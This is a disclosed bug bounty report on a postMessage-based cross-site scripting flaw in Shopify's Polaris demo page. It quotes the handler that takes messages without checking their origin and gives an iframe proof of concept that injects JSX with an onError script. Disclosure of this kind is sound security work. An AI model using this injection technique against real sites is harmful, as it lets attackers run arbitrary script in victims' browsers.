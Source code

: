 # xss on polaris.shopify.com/demo using postMessage

## Report Details
- **Report ID**: 894518
- **URL**: https://hackerone.com/reports/894518
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-06-09T14:17:40.893Z
- **Disclosed**: 2021-02-11T19:09:45.982Z

## Reporter
- **Username**: coldd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
# Description

it's possible to run arbitrary js code using https://polaris.shopify.com/demo + `postMessage`

following codes are from [this file](https://polaris.shopify.com/assets/baseline/demo-3801177f8c9e2fc96d7fbd9b73f76b32a8aa35fee26bee5aa0964e71955cf960.js) which formatted using [prettier](https://prettier.io/playground/)

`Demo` component (line 381) uses `addEventListener` to listen for `message` events (line #401):

```js
          componentDidMount() {
            window.addEventListener("message", this.handleMessage),
              this.throttledSendDetails(),
              window.addEventListener("click", handleAnchorClick);
          }
```

`handleMessage` method (line #499) will set `data.ats` as component state without checking message origin:

```js
          handleMessage(e) {
            var { data: t } = e;
            console.log(e);
            var r = Object(_app_utilities_ast__WEBPACK_IMPORTED_MODULE_61__.a)(
              t.ast.code
            );
            t &&
              Object.prototype.hasOwnProperty.call(t, "ast") &&
              this.setState({
                ast: r,
                fullSizeExamples: t.fullSizeExamples,
                omitAppProvider: t.omitAppProvider,
              });
          }
```

`ast.code` later rendered as React code.

# Step to Reproduce

1. create a HTML file containing an `iframe` with `https://polaris.shopify.com/demo` as `src`
2. after iframe loaded, send a message with `{ast: {code: "JSX code"}}` as data

```html
    <iframe id="ifrm" src="https://polaris.shopify.com/demo" height="100%" width="100%" frameborder="0"></iframe>
    <script>
      var ifrm = document.getElementById('ifrm');
      ifrm.onload = function() {
        ifrm.contentWindow.postMessage({ast: {
          code: "<img src='x' onError={() => alert(document.location)} />;",
        }}, '*');
      }
    </script>
```

# PoC

http://209.141.43.59/shopify-xss.html

## Impact

attacker can use bug to run arbitrary js code in victims browser.

## Attachments
- shopify-xss.html
- demo-3801177f8c9e2fc96d7fbd9b73f76b32a8aa35fee26bee5aa0964e71955cf960.js
